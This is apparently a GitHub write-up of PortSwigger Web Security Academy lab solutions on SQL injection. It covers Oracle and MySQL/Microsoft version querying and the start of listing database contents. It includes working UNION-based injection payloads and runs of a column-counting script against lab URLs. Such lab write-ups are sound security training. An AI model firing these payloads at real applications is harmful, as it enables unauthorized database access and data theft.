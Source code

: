 # PortSwigger Academy- SQL Injection

- Author: [Mateusz Głuchowski](https://github.com/hue1337)
- Site: [PortSwigger Academy](https://portswigger.net/)

# Lab: SQL injection attack, querying the database type and version on Oracle



## Steps:
1. Determining amount of columns by using our script `columns_amount.py`.

    ```bash
    python3 columns_amount.py --url https://0aaa00a503c074e683b2504f00b50012.web-security-academy.net/ --param category --amount 6
    ```

2. Looking into Oracle DB documentation to find the way how to determine the version.

    ```sql
    SQL>
    SQL>
    SQL> select banner from v$version;

    BANNER
    ----------------------------------------------------------------
    Oracle Database 10g Express Edition Release 10.2.0.1.0 - Product
    PL/SQL Release 10.2.0.1.0 - Production
    CORE    10.2.0.1.0      Production
    TNS for 32-bit Windows: Version 10.2.0.1.0 - Production
    NLSRTL Version 10.2.0.1.0 - Production

    SQL>

    ```

3. Preparing the payload:

    ```sql
    ' UNION SELECT banner, null FROM v$version -- -
    ```

4. Sending the request and completing the lab.


<div style="page-break-after: always;"></div>

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Steps:

1. Using our script (`columns_amount.py`) to determine amount of columns:
    
    ```bash
    python3 columns_amount.py --url https://0a5b005e038c2686836637ae00cd00c9.web-security-academy.net/filter?category=Accessories --param category --amount 5

    ```

2. Checking Microsoft documentation on determing DB version:
    - https://learn.microsoft.com/en-us/troubleshoot/sql/releases/find-my-sql-version

3. Preparing the payload:

    ```sql
    ' UNION SELECT @@version, null-- -
    ```

4. Sending the payload and completing the lab.


# Lab: SQL injection attack, listing the database contents on non-Oracle databases

1. Determining amount of columns:

    ``` bash
    ┌──(hue1337㉿kali)-[~/…/GitHub/PortSwigger/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0abd005504f664e280cc53bc001400b4.web-security-academy.net/ --param category --amount 5
    https://0abd005504f664e280cc53bc001400b4.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    Status code: 500
    Amount: 5
    Tmp_val: 2

    Status code: 500
    Amount: 4
    Tmp_val: 1

    Status code: 500
    Amount: 3
    Tmp_val: 1

    Status code: 200
    Amount: 2
    Tmp_val: 1

    [+] Amount of columns: 2 
                                
    ```